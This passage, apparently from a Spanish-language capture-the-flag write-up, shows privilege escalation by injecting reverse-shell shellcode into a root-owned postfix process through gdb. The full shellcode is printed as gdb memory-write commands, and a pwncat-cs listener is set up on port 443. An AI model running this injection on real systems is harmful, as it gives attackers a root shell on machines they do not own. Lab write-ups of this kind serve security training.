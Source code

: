Utilizamos el script que se nos adjunta en HackTricks y simplemente modificamos el shellcode.

```shell
$ python3 revshell.py 
set {long}($rip+0) = 0x296a909090909090
set {long}($rip+8) = 0x5e016a5f026a9958
set {long}($rip+16) = 0x0002b9489748050f
set {long}($rip+24) = 0x48510d0e0a0abb01
set {long}($rip+32) = 0x582a6a5a106ae689
set {long}($rip+40) = 0xceff485e036a050f
set {long}($rip+48) = 0x6af675050f58216a
set {long}($rip+56) = 0x69622fbb4899583b
set {long}($rip+64) = 0x8948530068732f6e
set {long}($rip+72) = 0x050fe689485752e7
```

Ahora con `ps aux | grep root` podemos buscar un proceso que sea de `root`

En mi caso elegiré el PID 1549 que corresponde a postfix.

```shell
developer@faculty:~$ gdb -p 1549
```

Ahora copiamos y pegamos las líneas generadas anteriormente.
![Write-up Image](images/Screenshot_16.png)

Nos ponemos en escucha con `pwncat-cs` por el puerto 443.
![Write-up Image](images/Screenshot_17.png)
